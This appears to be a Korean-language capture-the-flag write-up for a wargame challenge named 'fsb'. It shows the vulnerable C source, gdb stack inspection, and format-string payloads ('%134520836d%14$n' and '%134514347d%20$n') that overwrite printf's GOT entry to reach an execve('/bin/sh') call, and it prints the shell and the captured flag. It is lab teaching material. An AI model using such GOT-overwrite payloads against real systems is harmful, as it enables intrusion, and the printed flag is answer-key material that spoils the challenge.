

# [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**




# **Write-Up**

바이너리의 정보를 확인하자.

```sh
fsb@pwnable:~$ checksec fsb
[*] '/home/fsb/fsb'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

fsb.c의 소스를 확인하자.

```cpp
#include <stdio.h>
#include <alloca.h>
#include <fcntl.h>

unsigned long long key;
char buf[100];
char buf2[100];

int fsb(char** argv, char** envp){
        char* args[]={"/bin/sh", 0};
        int i;

        char*** pargv = &argv;
        char*** penvp = &envp;
        char** arg;
        char* c;
        for(arg=argv;*arg;arg++) for(c=*arg; *c;c++) *c='\0';
        for(arg=envp;*arg;arg++) for(c=*arg; *c;c++) *c='\0';
        *pargv=0;
        *penvp=0;

        for(i=0; i<4; i++){
                printf("Give me some format strings(%d)\n", i+1);
                read(0, buf, 100);
                printf(buf);
        }

        printf("Wait a sec...\n");
        sleep(3);

        printf("key : \n");
        read(0, buf2, 100);
        unsigned long long pw = strtoull(buf2, 0, 10);
        if(pw == key){
                printf("Congratz!\n");
                execve(args[0], args, 0);
                return 0;
        }

        printf("Incorrect key \n");
        return 0;
}

int main(int argc, char* argv[], char** envp){

        int fd = open("/dev/urandom", O_RDONLY);
        if( fd==-1 || read(fd, &key, 8) != 8 ){
                printf("Error, tell admin\n");
                return 0;
        }
        close(fd);

        alloca(0x12345 & key);

        fsb(argv, envp); // exploit this format string bug!
        return 0;
}
```

fsb(format string bug)라는 이름에 맞게 fsb에 취약한 부분이 존재한다.

```cpp
... 생략 ...
printf(buf);
... 생략 ...
```

취약한 부분에서의 스택을 살펴보기 위해 gdb를 실행하자.

```sh
fsb@pwnable:~$ gdb -q fsb
Reading symbols from fsb...(no debugging symbols found)...done.
```

취약한 부분의 주소를 보면, 0x08048610임을 알 수 있다. No PIE이기 때문에 주소는 바뀌지 않는다.

```sh
(gdb) info func
All defined functions:
... 생략 ...
   0x08048603 <+207>:   call   0x80483e0 <read@plt>
   0x08048608 <+212>:   mov    $0x804a100,%eax
   0x0804860d <+217>:   mov    %eax,(%esp)
   0x08048610 <+220>:   call   0x80483f0 <printf@plt>
   0x08048615 <+225>:   addl   $0x1,-0x1c(%ebp)
   0x08048619 <+229>:   cmpl   $0x3,-0x1c(%ebp)
... 생략 ...
```

브레이크 포인트를 걸고 run하자.

```sh
(gdb) b *0x08048610
Breakpoint 1 at 0x8048610
(gdb) r
Starting program: /home/fsb/fsb
Give me some format strings(1)
123

Breakpoint 1, 0x08048610 in fsb ()
```

esp부터 100byte정도 스택을 확인해보자.

```sh
(gdb) x/25x $esp
0xffd6daf0:     0x0804a100      0x0804a100      0x00000064      0x00000000
0xffd6db00:     0x00000000      0x00000000      0x00000000      0x00000000
0xffd6db10:     0x00000000      0x08048870      0x00000000      0x00000000
0xffd6db20:     0xffd7de88      0xffd7efe9      0xffd6db40      0xffd6db44
0xffd6db30:     0x00000000      0x00000000      0xffd7dd88      0x08048791
0xffd6db40:     0x00000000      0x00000000      0x00000000      0x00000000
0xffd6db50:     0x00000000
```

스택에 몇개의 주소가 쓰여져 있다. 이 중 빈 값이 있는 것을 찾아보면 0xffd6db40 0xffd6db44 있다.

```sh
(gdb) x/5x 0xffd7de88
0xffd7de88:     0x00000000      0x00000020      0xf7758b50      0x00000021
0xffd7de98:     0xf7758000
(gdb) x/5x 0xffd7efe9
0xffd7efe9:     0x6f682f00      0x662f656d      0x662f6273      0x00006273
0xffd7eff9:     0x00000000
(gdb) x/5x 0xffd6db40
0xffd6db40:     0x00000000      0x00000000      0x00000000      0x00000000
0xffd6db50:     0x00000000
```

print@got을 execve함수를 호출하는 주소로 overwrite하기 위해서 print@got의 주소를 알아내자.

```sh
(gdb) x/i 0x80483f0
   0x80483f0 <printf@plt>:      jmp    *0x804a004
```

execve함수를 호출하는 주소를 알아내자.

```sh
... 생략 ...
   0x080486a6 <+370>:   call   0x8048410 <puts@plt>
   0x080486ab <+375>:   mov    -0x24(%ebp),%eax
   0x080486ae <+378>:   movl   $0x0,0x8(%esp)
   0x080486b6 <+386>:   lea    -0x24(%ebp),%edx
   0x080486b9 <+389>:   mov    %edx,0x4(%esp)
   0x080486bd <+393>:   mov    %eax,(%esp)
   0x080486c0 <+396>:   call   0x8048450 <execve@plt>
... 생략 ...
```

print에 의해서 나오는 스택은 esp + 4임을 알 수 있다.

```sh
fsb@pwnable:~$ ./fsb
Give me some format strings(1)
%08x %08x %08x
0804a100 00000064 00000000
```

첫 번째 format strings를 입력받는 곳에는 0x804a004의 10진수 값인 134520836과 esp + 4에서 0xffd6db28 거리인 14를 조합해서 넣어주자.

```sh
fsb@pwnable:~$ ./fsb
Give me some format strings(1)
%134520836d%14$n
... 생략 ...
```

두 번째 format strings를 입력받는 곳에는 0x080486ab의 10진수 값인 134514347과 esp + 4에서 0xffd6db40까지의 거리인 20를 조합해서 넣어주자.

```sh
Give me some format strings(2)
%134514347d%20$n
... 생략 ...
```

10진수 값 만큼 print가 된 이후 execve와 "/bin/sh"에 의해서 shell을 획득하고 flag를 획득할 수 있다.

```sh
$ id
uid=1046(fsb) gid=1046(fsb) egid=1047(fsb_pwn) groups=1047(fsb_pwn),1046(fsb)
$ cat flag
Have you ever saw an example of utilizing [n] format character?? :(
```


# **FLAG**

**Have you ever saw an example of utilizing [n] format character?? :(**